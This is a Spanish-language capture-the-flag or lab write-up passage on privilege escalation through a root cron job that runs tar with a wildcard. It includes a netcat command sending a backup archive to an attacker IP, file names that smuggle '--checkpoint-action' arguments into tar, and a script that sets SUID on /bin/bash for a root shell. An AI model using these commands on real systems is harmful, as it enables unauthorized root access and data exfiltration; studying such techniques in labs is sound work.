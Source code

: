 En el directorio backup vemos que cada 5 minutos una tarea que se esta ejecutando a intervalos regulares de tiempo nos crea un archivo de backup.
Ahora tenemos que saber lo que se esta poniendo en estos backups.

1. En la maquina de atacante

    ```bash
    nc -u -nlvp 443 > dev-1627332901.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc -u 10.10.14.20 443 < dev-1627332901.tar.gz
    ```

mirando el contenido de fichero comprimido, nos damos cuenta que el contenido es el mismo que el directorio development.

Saviendo esto estamos intuiendo que la tarea cron ejecuta un comando del estilo: `tar -cvf backup/test.tar.gz /home/alekos/development/*`.
Aqui el problema es que si el comando es este, el simbolo `*` permitteria burlar el comando tar con breakpoints. Lo que queremos ejecutar seria
el comando siguiente:

```bash
tar -cvf backup/test.tar.gz /home/alekos/development/* --checkpoint=1 --checkpoint-action=exec/bin/sh
```

El echo es que si el comando de la tarea cron tiene el asterisco y que ficheros tienen nombres como `--checkpoint=1` y `--checkpoint-action=exec/bin/sh`,
en vez de copiarlos, los utilizaria como argumentos del proprio comando tar.

```bash
touch privesc
chmod +x privesc

nano privesc

############privesc content##############3

#!/bin/bash

chmod 4755 /bin/bash
```

```bash
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh privesc'
```

Ya esta esperamos hasta el proximo run de la tarea cron.

```bash
watch -n 1 ls -l /bin/bash -d
```

Cuando vemos que la /bin/bash tiene el `s` de SUID podemos convertirnos en root

```bash
bash -p
```

